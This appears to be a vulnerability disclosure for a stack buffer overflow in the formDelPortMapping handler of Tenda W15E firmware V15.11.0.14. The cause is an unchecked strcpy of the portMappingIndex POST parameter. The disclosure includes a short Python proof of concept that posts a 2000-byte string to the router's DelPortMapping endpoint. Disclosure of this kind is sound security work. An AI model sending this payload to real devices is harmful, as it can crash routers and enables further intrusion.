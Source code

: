 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-2722.html

## Affected version

W15EV1.0 V15.11.0.14

## Vulnerability details

The Tenda W15EV1.0 V15.11.0.14 firmware has a stack overflow vulnerability in the `formDelPortMapping` function. The `pPortMapIndex` variable receives the `portMappingIndex` parameter from a POST request and is directly assigned to `strcpy`. However, since the user can control the input of `portMappingIndex `, the statement`strcpy((char *)sPortMapIndex, (const char *)pPortMapIndex);` can cause a buffer overflow. The user-provided  `portMappingIndex` can exceed the capacity of the `sPortMapIndex` array, triggering this security vulnerability.

![image-20240417100646839](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417100646839.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/DelPortMapping"
payload = b"a"*2000

data = {
    	'portMappingIndex':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240416114043980](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114043980.png)
